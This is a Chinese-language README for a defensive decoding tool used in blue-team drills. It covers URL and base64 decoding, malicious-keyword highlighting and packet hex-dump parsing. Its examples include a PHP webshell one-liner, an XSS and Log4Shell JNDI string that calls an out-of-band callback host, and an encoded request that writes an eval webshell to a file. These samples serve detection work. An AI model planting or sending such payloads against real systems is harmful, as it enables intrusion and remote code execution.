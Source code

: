 # smartcrypto_v1.0
一键报文解码，HVV，蓝队防守利器
一键式多功能加解密工具，具有以下特点：

1.无需繁琐判断，一键常用全编码解密。

2.自动识别需解密部分。

3.用户可自定义的恶意代码高亮显示。

4.大小写混淆识别。

5.对ICMP、UDP报文的解析。

6.Windows、Linux、Mac跨平台使用，仅需python3环境。

7.工具小巧且功能强大，仅3.4MB。

8.代码开源，安全可靠。

9.二维码生成功能。

工具运行：

python 软件安装目录\smartcrypto.py

 



1.一键常用全编码解密：用户无需判断，系统自动尝试所有可用方法进行解密。配合完善的报错机制，帮助用户快速锁定正确的解密方式。

例：

https%3A%2F%2Fwww.example.com%2Fabout%3Fuser%3Djohn%20doe



2.自动识别需解密部分：使用正则表达式自动检测并解密文本中的编码片段。

例：

https://example.com/api?data=ZGF0YSt3aXRoL3NwZWNpYWw/Y2hhcnMmaW49aXQ=



3.用户可自定义的恶意代码高亮显示：用户可以在value.txt文件中添加关键词，使用户拥有自己的恶意代码识别库。系统会在输出结果中高亮显示这些关键词，帮助用户快速识别潜在威胁。

例：

<?php

$a=base64_decode("YXNzZXJ0");

@a($_POST['shell']);

?>



4.大小写混淆识别：通过正则搜索，增强了对常见绕过安全防护技术的识别能力。

例：

GET /_404_%3E%3Cscript%3EAlERt(1337)%3C%2Fscript%3E useragent: ${jndi:ldap://127.0.0.1#.${hostName}.useragent.cr3fnhsgvalhkg6trek0mktqo1urhqifi.oast.online} ///../app.js



帮助用户一键快速解密，并迅速锁定威胁代码。

5.对ICMP、UDP报文的解析：能够解析并展示HEX DUMP数据，提供详细的网络协议头部信息（如以太网、IP、ICMP、UDP等）。

例1.ICMP ping包：

00000000: 00 60 8C D9 72 3B 00 1C 23 4B C1 22 08 00 45 00  .`..r;..#K."..E.

00000010: 00 54 1C 46 40 00 40 01 F6 C2 C0 A8 00 68 C0 A8  .T.F@.@......h..

00000020: 00 01 08 00 07 56 00 01 00 4D 61 62 63 64 65 66  .....V...Mabcdef

00000030: 67 68 69 6A 6B 6C 6D 6E 6F 70 71 72 73 74 75 76  ghijklmnopqrstuv

00000040: 77 78 79 7A 00 00 00 00 00 00 00 00 00 00        wxyz............



例2.UDP DNS查询报文：

00000000: 00 1A A0 9B C3 12 00 1B 21 7B D4 F1 08 00 45 00  ......!.{....E.

00000010: 00 32 4A 1C 00 00 80 11 B7 E4 C0 A8 01 0A C0 A8  .2J.............

00000020: 01 01 1F 90 00 35 00 1E 5C A2 00 01 01 00 00 01  .....5..\.......

00000030: 00 00 00 00 00 00 03 77 77 77 07 65 78 61 6D 70  .......www.exam

00000040: 6C 65 03 63 6F 6D 00 00 01 00 01                ple.com.....



6.Windows、Linux、Mac跨平台使用，仅需python3环境。

7.工具小巧且功能强大，仅3.4MB。



8.代码开源，安全可靠。

9.二维码生成功能：

在输入框输入代码或其他内容，点击生成二维码。

方便在某些无网络的情况下传递数据。

也可以当成一个有趣的工具，逗女朋友开心^_^。

10.复杂的组合操作：

例：

1[]=xmykh.php&1[]=N3BuZGVhPD9waHAgY2xhc3MgR2FNMTBmQTUgeyBwdWJsaWMgZnVuY3Rpb24gX19jb25zdHJ1Y3QoJEg3bXU2KXsgQGV2YWwoIi8qWkc1emtuUmZTayovIi4kSDdtdTYuIiIpOyB9fW5ldyBHYU0xMGZBNSgkX1JFUVVFU1RbJ00nXSk7Pz4%3D&2=$a,$b&3=return var_dump(file_put_contents($b,base64_decode($a)));



说明他是经过URL+BASE64加密的。

把URL解密的结果复制，粘贴到输入框二次解密。



这时BASE64和URL安全BASE64都解出来了，对比两者。

BASE64:



URL安全BASE64：



明显可以看到BASE64有一段解密错误。

说明黑客是用URL安全BASE64加密的。

通过URL+URL安全BASE64组合解密，我们明显可以看出这是远程代码执行（RCE）。

11.另外，还有一些符合用户使用习惯的小功能，例如：

l双击对应输出框，会自动跳转到详细视图界面，有更大的输出框，方便用户查看解密结果。

l单击解密，会自动跳转到输出框，方便用户查看全局解密情况。

l完善的复制粘贴功能，可以用快捷键，可以右键菜单，也可以点击用户界面的按钮。

l一键清空功能，节约用户时间。

l左下角状态栏功能，让用户知道“smartcrypto”时刻在忠实执行你的命令。

  通过这些功能，工具帮助用户轻松进行各类加解密操作，提高了工作效率，并增强了数据分析和网络安全检测的能力。即使对编程和网络安全知识了解不多，也能通过这个工具轻松进行相关操作。

联系与支持

本工具会一直维护，如需要开发什么新的实用功能或建议，请联系开发者：

邮箱：dreamblade123@163.com

微信：allen886611
